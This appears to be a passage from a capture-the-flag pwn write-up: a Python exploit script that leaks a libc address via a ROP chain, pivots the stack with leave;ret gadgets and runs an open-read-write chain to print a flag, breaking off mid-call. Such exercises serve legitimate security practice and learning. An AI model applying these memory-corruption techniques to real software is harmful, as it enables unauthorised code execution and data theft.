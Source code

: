 orw

开放open read write：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

'''
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
'''

from ckyan.pwnScript import *

def exp():

    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn
    rop_attack = pandora_box.ropper_attack

    padding = 0x100 + 8
    main_addr = 0x40130C

    rop_attack.set_padding(padding=padding)

    ru(b'this task.\n')
    rop_attack.puts(target_addr=elf.got['puts'],
                    return_func_addr=main_addr,
                    is_send=True)

    libc_base = r7f() - libc.sym['puts']
    set_libc_base_and_log(libc_base)

    rop_attack.update_padding(padding=padding-8)
    
    stack_migration_addr = 0x404048
    leave_ret_addr = rop_attack.search_gadgets('leave;ret')
    
    ru(b'this task.\n')
    rop_attack.read(rbp_value=stack_migration_addr,
                    target_addr=stack_migration_addr,
                    return_func_addr=leave_ret_addr,
                    is_send=True)

    rop_attack.update_padding(padding=0)

    flag_name_str_addr = 0x404038
    flag_addr = 0x404048

    rop_attack.orw_cat_flag(
        flag_name_str_addr=flag_name_str_addr,
        flag_addr=flag_addr,
```